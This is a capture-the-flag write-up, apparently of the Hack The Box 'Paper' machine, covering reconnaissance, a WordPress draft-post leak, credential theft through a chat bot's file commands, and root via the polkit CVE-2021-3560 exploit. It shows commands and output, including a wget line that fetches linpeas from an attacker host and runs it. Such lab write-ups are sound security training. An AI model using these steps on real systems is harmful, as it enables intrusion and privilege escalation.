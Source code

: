 ## Using nmap, scan this machine. What ports are open?

```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ nmap -sC -sV -o nmap 10.10.11.143 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 02:46 PDT
Nmap scan report for 10.10.11.143
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.97 seconds
```
Nmap result shows that SSH , SSL and Apache are available on their default ports. Let's take look at webpage. Maybe we can find something.

## Website port 80
![](images/website.png)

## Looking for X-backend
I didn't find anything useful on website.Let's try to find backend server. For that we using curl with location flag (-L) for see which route our website take.
```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ curl -I  10.10.11.143 
HTTP/1.1 403 Forbidden
Date: Sun, 10 Apr 2022 10:12:04 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
```
Looks like we got our self a winner. We found our backend server **office.paper**. Let's add it **/etc/hosts** file.

## Blunder Tiffin Paper Company
When we got to **office.paper** we can see this website.

![](images/office-paper.png)

When we scroll down a bit we can see a comment(hint) on one of post.

![](images/comment.png)

## Analyze with Wappalyzer
![](images/wappa.jpg)
Wappalyzer reveals website running on wordpress 5.2.3. Let's try to run wpscan.

```bash
+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
```
Wpscan results shows this version is vurnerable. So let's go to google and search about this after while I found this site.

https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2

So it has a vulnerability could allow an unauthenticated user to view private or draft posts due to an issue within WP_Query. Let's try it.

![](images/vurnablilty%20wordpress.png)

After reading a draft we can see secret registeration url and another server called **chat.office.paper**. Let's add it to **/etc/hosts/** and click the link. When we click the link we can see new user registeration site.

![](images/register.png)

After register and log with your new account. If you surf the webpage You will find a general Chat .When you scroll up You will find that **DwightKSchrute** is the admin and he added a Bot named **Recyclops** .You will also find out that You cannot Type in the General Chat But you can Direct Message the **Bot Recyclops**. When I Type **Recyclops Help** it gives me set of instructions.

![](images/bot.png)

The Instructions state that we can ask the Recyclops Bot A file , to List files and many more. Which was a Interesting! , So I tried to get User.txt Using The Recyclops Bot But was Unsuccessful Because It Says Access denied. 

![](images/access%20denied.png)

After messing around I reach the jackpot. When you got **hubot dir** you can see some of interesting files.

![](images/hubot.png)

When you try to look into **.env** file. you can get the password to **dwight** account.

![](images/password.png)

## Login to user **dwight**
When we log into **dwight** acc we can get a user flag.
```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ sudo ssh dwight@10.10.11.143
[sudo] password for defalt: 
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ED25519 key fingerprint is SHA256:9utZz963ewD/13oc9IYzRXf6sUEX4xOe/iUaMPTFInQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sun Apr 10 06:45:11 EDT 2022 from 10.10.15.15 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Sun Apr 10 06:45:08 2022 from 10.10.14.57
[dwight@paper ~]$ ls -la
total 68
drwx------  11 dwight dwight 4096 Apr 10 06:47 .
drwxr-xr-x.  3 root   root     20 Apr 10 06:42 ..
lrwxrwxrwx   1 dwight dwight    9 Jul  3  2021 .bash_history -> /dev/null
-rw-r--r--   1 dwight dwight   18 May 10  2019 .bash_logout
-rw-r--r--   1 dwight dwight  141 May 10  2019 .bash_profile
-rw-r--r--   1 dwight dwight  358 Jul  3  2021 .bashrc
-rwxr-xr-x   1 dwight dwight 1174 Sep 16  2021 bot_restart.sh
drwx------   5 dwight dwight   56 Jul  3  2021 .config
-rw-------   1 dwight dwight    9 Apr  9 23:08 .dbshell
-rw-------   1 dwight dwight   16 Jul  3  2021 .esd_auth
-rw-rw-r--   1 dwight dwight 5512 Apr  9 23:32 exploit.c
-rwxrwxr-x   1 dwight dwight 9617 Apr  9 23:35 file.sh
drwx------   3 dwight dwight   69 Apr  9 23:08 .gnupg
drwx------   8 dwight dwight 4096 Sep 16  2021 hubot
-rw-rw-r--   1 dwight dwight   18 Sep 16  2021 .hubot_history
drwx------   3 dwight dwight   19 Jul  3  2021 .local
drwxr-xr-x   4 dwight dwight   39 Jul  3  2021 .mozilla
drwxrwxr-x   5 dwight dwight   83 Jul  3  2021 .npm
-rw-------   1 dwight dwight    7 Apr 10 06:47 .python_history
drwxr-xr-x   4 dwight dwight   32 Jul  3  2021 sales
drwx------   2 dwight dwight    6 Sep 16  2021 .ssh
-r--------   1 dwight dwight   33 Apr  9 22:47 user.txt
drwxr-xr-x   2 dwight dwight   24 Sep 16  2021 .vim
```
## Let's run linpeas to see what is our machine upto

First start a web server on our machine. **python3 -m http.server** and download it to victims machine.

```bash
[dwight@paper ~]$ wget 10.10.14.53:8000/linpeas.sh
--2022-04-10 06:58:08--  http://10.10.14.53:8000/linpeas.sh
Connecting to 10.10.14.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1            100%[=============================>] 131.02K   266KB/s    in 0.5s    

2022-04-10 06:58:09 (266 KB/s) - ‘linpeas.sh.1’ saved [134168/134168]

[dwight@paper ~]$ bash linpeas.sh
````
* Linpeas results :

![](images/polkit%20linpeas.png)

Our linpeas result shows this machine vureable to polkit exploit(CVE-2021-3560).

## Polkit exploit

I'm using this script to exploit our machine.

https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py

After few tries I got the root access. GG!

```bash
[dwight@paper ~]$ python3 poc.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
[+] User Created with the name of ahmed
[+] Timed out at: 0.006675333958235134
[+] Timed out at: 0.008788664949069335
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (5125): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]#
[root@paper ~]# whoami
root
```
Thx for reading !! Have a nice day.